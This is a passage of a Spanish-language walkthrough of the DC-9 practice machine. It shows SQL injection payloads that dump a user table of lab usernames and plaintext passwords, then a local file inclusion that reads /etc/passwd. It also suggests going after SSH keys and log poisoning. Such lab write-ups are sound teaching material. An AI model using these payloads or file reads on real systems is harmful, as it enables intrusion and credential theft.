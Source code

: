 ```sql
admin' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_schema="users" and table_name="UserDetails"-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled11.png)


```sql
admin' union select group_concat(username,":",password),2,3,4,5,6 from users.UserDetails-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled12.png)

| Username     | Password          |
|:-------------|:------------------|
| marym	       | 3kfs86sfd 	   |
| julied       | 468sfdfsd2	   |
| fredf 	| 4sfd87sfd1 	   |
| barneyr 	| RocksOff	   |
| tomc 		| TC&TheBoyz	   |
| jerrym 	| B8m#48sd	   |
| wilmaf 	| Pebbles	   |
| bettyr 	| BamBam01	   |
| chandlerb 	| UrAG0D!   	   |
| joeyt 	| Passw0rd	   |
| rachelg 	| yN72#dsd 	   |
| rossg 	| ILoveRachel	   |
| monicag 	| 3248dsds7s	   |
| phoebeb 	| smellycats	   |
| scoots 	| YR3BVxxxw87 	   |
| janitor 	| Ilovepeepee 	   |
| janitor2	| Hawaii-Five-0	   |

Si volvemos a ver la imagen cuando nos conectamos, había un mensaje que decía “File does not exist“, y como sabemos ‘file’ es un típico parámetro para probar en las “Local File Inclusion”. Podemos intentamos ver el “/etc/passwd”.

![](https://eidd3.github.io/assets/img/DC9/Untitled13.png)

Funciona. En este punto, se podría probar ver la id_rsa de cada usuario, ver si el usuario tiene privilegios de lectura de logs de apache y ssh para intentar un log poisoning. O podríamos ver archivos del sistema como “/proc/net/tcp” para ver el estado de las conexiones TCP activas en el sistema.
